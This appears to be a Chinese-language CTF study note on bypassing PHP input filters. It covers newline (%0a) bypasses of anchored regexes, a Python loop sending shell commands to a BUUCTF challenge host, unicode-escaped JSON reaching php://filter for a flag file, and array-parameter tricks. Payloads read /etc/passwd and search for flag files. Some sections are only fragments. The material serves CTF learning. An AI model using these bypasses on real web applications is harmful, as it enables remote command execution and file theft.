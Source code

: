 ## **特殊正则绕过1**
```
if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias省略见下面|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];


preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|
compgen|complete|continue|declare|dirs|disown|
echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|
kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|
shopt|source|suspend|test|times|trap|type|typeset|ulimit|
umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) 

```
正则匹配表达式采用了^xxx$的格式，同时也采用了.*这样的贪婪匹配，所以有两个方案来绕过正则——回溯次数超限和利用%0a。

^
#### **1、%0a绕过**
因为正则匹配中'^'和'$'代表的是行的开头和结尾,所以能利用换行绕过。
![](.topwrite/assets/image_1728045913134.png)
```
cmd={"cmd":"/bin/cat%20/etc/passwd"}
cmd=%0a%0a{"cmd":"/bin/cat%20/etc/passwd"}%0a%0a
cmd=%0a%0a{"cmd":"/usr/bin/find%20/%20-name%20flag*"}%0a%0a
```

其他案例：
```
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```
$_SERVER['QUERY_STRING']获取查询语句，既要绕过get参数中下划线_的过滤，用.替换，还要绕过正则匹配的23333，通过%0a。
```
?b.u.p.t=23333%0a
```

^
#### **2、回溯次数超限绕过**
```
import requests as res

url="http://a3388f0b-b347-4570-ad9e-88649da2aa29.node4.buuoj.cn:81/"
while(True):
    payload=input("resp:")
    resp=res.get(url,params={"cmd":'\x0a\x0a{"cmd":"%s"}\x0a\x0a'%(payload)})
    print(resp.text)
```




^
## **无字母RCE绕过**
不可大于字符：1、url 。2、异或
自增




^
^
## **JSON绕过关键词过滤**
JSON可以使用UNicode的16进制编码绕过。
如
```
{"page":"\u0070\u0068\u0070://filter/convert.base64-encode/resource=/\u0066\u006c\u0061\u0067"}
```

^
## **传参变数组绕过**
```
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
die('Invalid nickname');

这里只需要
nickname=;;;;;
变成
nickname[]=;;;;
即可绕过
```